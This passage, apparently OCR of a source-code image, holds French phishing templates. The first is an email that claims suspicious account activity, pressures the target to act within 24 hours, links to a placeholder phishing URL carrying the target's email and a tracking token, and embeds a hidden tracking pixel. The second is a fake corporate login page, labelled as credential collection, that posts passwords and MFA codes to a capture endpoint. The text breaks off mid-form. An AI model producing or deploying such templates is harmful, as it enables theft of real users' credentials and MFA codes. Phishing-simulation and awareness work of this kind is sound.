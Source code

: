 ```html
    
    <p>
        Nous avons détecté une activité suspecte sur votre compte. 
        Pour votre sécurité, veuillez cliquer sur le lien ci-dessous 
        pour vérifier votre identité dans les <strong>24 heures</strong>.
    </p>
    
    <p style="text-align: center; margin: 30px 0;">
        <a href="{{phishing_link}}?user={{email}}&token={{tracking_token}}" 
           class="button">
            VÉRIFIER MON COMPTE
        </a>
    </p>
    
    <p style="font-size: 12px; color: #666;">
        Ce message est automatique. Si vous avez des questions, 
        contactez le support IT à {{support_email}}.
    </p>
    
    <img src="{{tracking_pixel}}" width="1" height="1" style="display:none;">
</body>
</html>
```

### Pages de Destination

#### Page de Collecte de Credentials

```html
<!DOCTYPE html>
<html>
<head>
    <title>Connexion Sécurisée - {{company_name}}</title>
    <link rel="stylesheet" href="styles/corporate.css">
</head>
<body>
    <div class="login-container">
        <div class="company-logo">
            <img src="images/{{company_logo}}" alt="{{company_name}}">
        </div>
        
        <form id="loginForm" action="/capture" method="post">
            <h2>Vérification de Sécurité Requise</h2>
            
            <div class="alert">
                <strong>Attention :</strong> Activité suspecte détectée sur votre compte.
            </div>
            
            <div class="form-group">
                <label>Email Professionnel</label>
                <input type="email" name="username" required 
                       value="{{target_email}}" readonly>
            </div>
            
            <div class="form-group">
                <label>Mot de Passe</label>
                <input type="password" name="password" required>
            </div>
            
            <div class="form-group">
                <label>Code de Vérification (si activé)</label>
                <input type="text" name="mfa_code" placeholder="123456">
            </div>
```